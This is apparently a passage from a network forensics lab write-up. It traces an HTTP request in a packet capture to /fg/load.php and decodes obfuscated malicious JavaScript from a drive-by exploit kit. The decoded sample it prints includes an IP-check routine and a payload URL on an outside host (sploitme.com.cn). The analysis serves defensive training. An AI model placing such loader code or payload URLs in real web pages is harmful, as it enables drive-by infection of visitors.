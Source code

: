 ```c
Complete();}
mdac();
```


<u>Functions found</u>:
```c
- Complete()
- CheckIP()
- Go()
- mdac()
```


###### From packet `502`:  URI request -> `/fg/load.php?e=1`

![](/assets/img/Pasted image 20240809132057.png)


Following the HTTP stream:

![](/assets/img/Pasted image 20240809132123.png)

Isolating the malicious javascript code found in the stream:

![](/assets/img/Pasted image 20240809132029.png)


Command:

```c
C:\Users\husky\Desktop\CCD_NetworkForensicsLabs\Windows>type jscode3.js | js-ascii.exe -e "document.output('D')" -
```

Output:

![](/assets/img/Pasted image 20240809132500.png)


JavaScript code:

```c
function Complete(){
	setTimeout('location.href = "about:blank',2000);
}

function CheckIP(){
	var req=null;
	try{
		req=new ActiveXObject("Msxml2.XMLHTTP");
	} catch(e) {
		try{req=new ActiveXObject("Microsoft.XMLHTTP");
	} catch(e) {
		try { 
			req=new XMLHttpRequest();
		} catch(e){}
	}}
	if(req==null)
		return "0";
	req.open("GET","/fg/show.php?get_ajax=1&r="+Math.random(),false);
	req.send(null);
	if(req.responseText=="1"){
		return true;
	} else {
		return false;
	}}
	var urltofile='http://sploitme.com.cn/fg/load.php?e=1';
```